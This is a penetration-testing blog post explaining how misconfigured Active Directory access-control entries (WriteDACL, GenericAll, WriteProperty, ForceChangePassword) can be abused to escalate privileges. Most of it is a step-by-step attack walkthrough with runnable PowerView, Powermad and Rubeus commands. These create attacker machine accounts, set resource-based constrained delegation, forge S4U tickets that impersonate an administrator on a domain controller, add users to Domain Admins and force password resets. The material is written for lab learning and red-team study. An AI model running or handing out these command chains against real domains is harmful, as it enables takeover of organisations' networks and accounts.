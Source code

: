 ```yaml
---
title: 'Abusing AD Access Controls'
date: '2019-01-15'
layout: post
tag: [AD, Access Controls]
excerpt: >-
  Abusing Access Control List and Access Control Entries
description: >-
  Abusing Access Control List and Access Control Entries
image: '/images/posts/abusing-ace/abusing-acl.png'
thumb_image: '/images/posts/abusing-ace/abusing-acl.png'
---
```


# Introduction

Access privileges for resources in Active Directory Domain Services are usually granted through the use of an Access Control Entry (ACE). 

Access Control List entries describe the allowed and denied permissions for a principal in Active Directory against a securable object (user, group, computer, container, organization unit (OU), GPO etc..) DACLs (Active Directory Discretionary Access Control Lists) are lists made of ACEs (Access Control Entries) that identify the users and groups that are allowed or denied access to an object. When we have misconfigured, ACEs can be abused to operate lateral movement or privilege escalation within an AD domain. 

An example of ACEs for the “Domain Admins” securable object can be seen here:

![](/images/posts/abusing-ace/abusing-active-directory-aclace.png)

Active Directory offers a variety of permission types to set up an ACE.  
From an attacker’s point of view, the following permission types are particularly interesting:

- **WriteDACL** – modify the object’s ACEs and give an attacker complete control right over the object 
- **GenericAll** – full rights to the object (add users to a group or reset user’s password) 
- **GenericWrite** – update object’s attributes (i.e. logon script) 
- **WriteOwner** – change object owner to attacker controlled user to take over the object 
- **AllExtendedRights** – the ability to add a user to a group or reset a password 
- **ForceChangePassword** – the ability to change the user’s password 

## WriteDacl

The writeDACL permissions allow an identity to fully control rights over the designated object. 
This means they can modify access control lists (ACL) to gain higher privileges, like becoming a domain administrator or gaining specific user rights.

It’s important to be aware of the risks, especially if someone can modify the ACL of an Active Directory (AD) object and assign permissions that allow them to read and write specific attributes, such as changing an account name or resetting a password.

Abusing writeDACL to a computer object can be used to gain the GenericAll privilege. 
It’s crucial to authenticate to the Domain Controller when running a process as a user without writeDACL rights.

Additionally, using the Powerview module Add-DomainObjectAcl requires creating a PSCredential object first.

```powershell
SecPassword = ConvertTo-SecureString 'Password@1' -AsPlainText -Force 
$Cred = New-Object System.Management.Automation.PSCredential('first.local\\admin.user', $SecPassword) 
Add-DomainObjectAcl -Credential $Cred -TargetIdentity FIRST-DC  -PrincipalIdentity writedacldc.user -Rights All
```

![](/images/posts/abusing-ace/Pasted-image-20231211174126.png)

Once we have granted this privilege, we can execute a resource based constrained delegation attack. 
First, if an attacker does not control an account with an SPN set, 
Powermad can be used to add a new attacker-controlled computer account: 

```powershell
New-MachineAccount -MachineAccount attacker system -Password $(ConvertTo-SecureString 'Password@1' -AsPlainText -Force)
```

![](/images/posts/abusing-ace/Pasted-image-20231211174134.png)

PowerView can be used to retrieve then the security identifier (SID) of the newly created computer account: 

```powershell
$ComputerSid = Get-DomainComputer attacker system -Properties objectsid | Select -Expand objectsid
```

We now need to build a generic ACE with the attacker-added computer SID as the principal, and get the binary bytes for the new DACL/ACE: 

```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))" 
$SDBytes = New-Object byte[] ($SD.BinaryLength) 
$SD.GetBinaryForm($SDBytes, 0)
```

Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the comptuer account we’re taking over, again using PowerView in this case: 

```powershell
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{‘msds-allowedtoactonbehalfofotheridentity’=$SDBytes}
```

We can then use Rubeus to hash the plaintext password into its RC4_HMAC form 

```powershell
Rubeus.exe hash /password:Password@1
```

![](/images/posts/abusing-ace/rubeus-exe-hash.png)

And the _s4u_ module to get a service ticket for the service name we want to pretend to be an admin for. 
This ticket is injected into memory and in this case grants us access to the file system of the FIRST-DC: 

```powershell
Rubeus.exe s4u /user:attackersystem$ /rc4:64FBAE31CC352FC26AF97CBDEF151E03 /impersonateuser:admin /msdsspn:cifs/FIRST-DC.first.local /ptt
```

![](/images/posts/abusing-ace/rubeus-exe-hash-1.png)

![](/images/posts/abusing-ace/rubeus-exe-hash_.png)

![](/images/posts/abusing-ace/rubeus-exe-s4u.png)

## GenericAll

The GenericAll permission provides write access to all properties (add users to a group or reset the user’s password).
 _The right to read permissions on this object, write all the properties on this object, and perform all validated writes to this object._ 

Example: If the attacker has GenericAll over any target, then he doesn’t have to know the target user’s password. 
He can execute a force password reset using **Set-DomainUserPassword** to a known value.

Using powerview, we will check if our user has GenericAll rights on the Domain Controller (First-DC) 

```powershell
Get-ObjectAcl -SamAccountName first-dc | ?{$_.ActiveDirectoryRights -eq "GenericAll"} 
```

![](/images/posts/abusing-ace/get-objectacl-samaccountname-first-dc.png)

We can see that our user has the GenericAllrights, effectively enabling the user to take over the DC: 
Generic write to a computer object can be used to perform a resource based constrained delegation attack. 
We will use Powermad to add a new attacker-controlled computer account 

```powershell
New-MachineAccount -MachineAccount genallcomp -Password $(ConvertTo-SecureString 'Password!' -AsPlainText -Force)
```

PowerView can be used to retrieve then the security identifier (SID) of the newly created computer account: 

```powershell
$ComputerSid = Get-DomainComputer genallcomp -Properties objectsid | Select -Expand objectsid 
```

We now need to build a generic ACE with the attacker-added computer SID as the principal, and get the binary bytes for the new DACL/ACE: 

```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))" 
$SDBytes = New-Object byte[] ($SD.BinaryLength) 
$SD.GetBinaryForm($SDBytes, 0)
```

Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we’re taking over, again using PowerView in this case: 

```powershell
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{‘msds-allowedtoactonbehalfofotheridentity’=$SDBytes} 

Rubeus.exe hash /password:Password!
```

![](/images/posts/abusing-ace/rubeus-exe-hash-password.png)

Finally, we can use Rubeus’ _s4u_ module to get a service ticket for the service name we want to “pretend” to be “admin” for. 
This ticket is injected in memory, and in this case grants us access to the file system of the FIRST-DC: 

```powershell
Rubeus.exe s4u /user:genallcomp$ /rc4:FBDCD5041C96DDBD82224270B57F11FC /impersonateuser:admin /msdsspn:cifs/FIRST-DC.first.local /ptt 
```

![](/images/posts/abusing-ace/rubeus-exe-s4u-user-genallcomp.png)

![](/images/posts/abusing-ace/rubeus-exe-s4u-user-genallcomp_.png)

![](/images/posts/abusing-ace/genericwrite.png)


GenericAll / GenericWrite / Write on Computer 

If you have rights you can perform a resource based constrained delegation 

## WriteProperty (Self-Membership)

If our user has WriteProperty right on All objects for the Domain Admin group: 

We can again add ourselves to the Domain Admins group and escalate privileges: 

```powershell
net user gpowrite.user /domain; Add-NetGroupUser -UserName gpowrite.user -GroupName "domain admins" -Domain "first.local"; net user gpowrite.user /domain 
```

![](/images/posts/abusing-ace/gpowrite-user.png)


## ForceChangePassword

If we have ExtendedRight on User-Force-Change-Password object type, we can reset the user’s password without knowing their current password: 

Using PowerView: 

```powershell
Set-DomainUserPassword -Identity gpowrite.user -Verbose 
```

![](/images/posts/abusing-ace/forcechangepassword.png)
